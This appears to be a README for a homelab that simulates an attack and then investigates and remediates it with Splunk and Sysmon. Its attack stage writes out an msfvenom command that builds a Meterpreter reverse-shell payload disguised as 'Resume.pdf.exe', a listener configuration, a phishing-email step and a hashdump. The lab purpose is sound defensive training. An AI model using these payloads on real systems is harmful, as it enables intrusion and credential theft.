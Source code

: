 
---

# Homelab: Attack and Defence Simulation Project

### Objective
The primary objective of this project is to simulate a cyber-attack, investigate the attack using Splunk, and remediate it.

---

## Project Overview

1. **Stage 1:** Lab Setup
2. **Stage 2:** Machine Configuration
3. **Stage 3:** Attack Simulation
4. **Stage 4:** Investigation and Remediation
5. **Conclusion**

---

## Stage 1: Lab Setup

### 1. Environment Setup

- **Install VirtualBox** and create two virtual machines.

    ![Screenshot of Windows 10 VM setup](./assets/virtualbox.png)
- **Machine 1 (Victim):** Windows 10  
    ![Screenshot of Windows 10 VM setup](./assets/win10.png)
- **Machine 2 (Attacker):** Kali Linux  
    ![Screenshot of Kali Linux VM setup](./assets/kali.png)

### 2. Network Configuration

- **Internal Network Isolation:** Configure both machines to communicate only through an internal network.
![Network Configuration Screenshot](./assets/network-topology.png)
- Go to **Settings > Network > Select Internal Network**  
![Network Configuration Screenshot](./assets/internal-network.png)
- **Static IP Assignment:** Assign static IPv4 addresses to each machine for consistent communication.

    - Windows 10 (Victim): 192.168.1.10
    ![kali ip](./assets/win10ip.png)
    - Kali Linux (Attacker): 192.168.1.20  
    ![Screenshot showing IP assignment on both machines](./assets/kaliip.png)

---

## Stage 2: Machine Configuration

### Machine 1: Victim (Windows 10)

1. **Install Splunk Enterprise:**
   - Download and install Splunk enterprise to monitor system activities.
   - Navigate to `http://127.0.0.1:8000`for using splunk and login to your account.
   ![splunk login](./assets/splunk-login.png)
   ![splunk login](./assets/splunk-home.png)

2. **Install Sysmon Add-on for Splunk:**
   - Download and install the Sysmon add-on for advanced monitoring.
   ![Sysmon addon](./assets/sysmon-addon.png)
   - Copy `Splunk_TA_microsoft_sysmon` add-on directory from `Splunk/etc/app` to `Splunk/etc/deployment-apps`.
   ![Sysmon addon app directory](./assets/addonfile.png)

3. **Configure Sysmon:**
Download and configure Sysmon with an XML configuration file for detailed process monitoring.
   - [Download Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
   - [Download Sysmon configuration file](https://github.com/olafhartong/sysmon-modular) 
   
         ./sysmon64 -i ./config.xml -accepteula


4. **Deactivate Windows Defender:**
   Temporarily disable Windows Defender to avoid interference with the simulation.

### Machine 2: Attacker (Kali Linux)

1. **Network Connectivity Check:** Use the `ping` command to confirm connectivity with the victim machine.  
     ![Screenshot of ping command](./assets/pingtest.png)

2. **Reconnaissance Using Nmap:**
   - Use `nmap` to scan the victim machine for open ports, identifying potential vulnerabilities.  

   ![Nmap scan results](./assets/nmap.png)

3. **Malware Creation:** Generate a malware executable with `msfvenom` using the `windows/meterpreter/reverse_tcp` payload.

         msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Your_IP> lport=4444 -f exe -o Resume.pdf.exe
   ![malware created](./assets/msfresume.png)

4. **Phishing Email:**
    Craft a phishing email with the malware attachment and send it to the victim.  

   ![Screenshot of phishing email](./assets/mail.png)

---

## Stage 3: Attack Simulation

### Step 1: Launch `msfconsole` on Kali Linux (Attacker Machine)

1. Launch `msfconsole` and configure it to listen for an incoming connection:
   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set lhost <Your_IP>
   set lport 4444
   options
   exploit
   ```
![msf consoole](./assets/msfconsole.png)
### Step 2: Execute the Malware on Windows 10 (Victim Machine)

- Open the malware attachment from the phishing email on the victim machine to initiate a reverse shell connection.
![malware running](./assets/malware-runing.png)
### Step 3: Access the Victim Machine

- Once the malware is executed, access the victim machine via the Meterpreter shell.
  - Execute commands such as `sysinfo`, `hashdump`, and other shell commands to observe system data and activity.

---

## Stage 4: Investigation and Remediation

### 1. Investigate with Splunk on Windows 10

- Analyze Sysmon logs in Splunk to trace malware behavior, focusing on:
  - **Process Creation**
  - **Network Connections**
  - **Registry Modifications**
- Document each log entry to map the attack sequence.  
  ![Relevant Splunk log screenshot]()

### 2. Investigation Findings

- Document findings, including:
  - How the attack was executed
  - Impact on the system
  - Vulnerabilities that were exploited

### 3. Malware Removal and Remediation

- Terminate the malicious process.
  - ![Task Manager Screenshot displaying malware process]()
- Delete the malware executable.
- Check for persistent registry entries or scheduled tasks to ensure complete threat removal.

---

## Conclusion

This homelab simulation demonstrated a cyber-attack process from setup through remediation, providing a hands-on experience in both offensive and defensive cybersecurity skills. By leveraging tools like Splunk and Sysmon, the investigation traced the attack's behavior, enabling a thorough remediation process to secure the system.

---

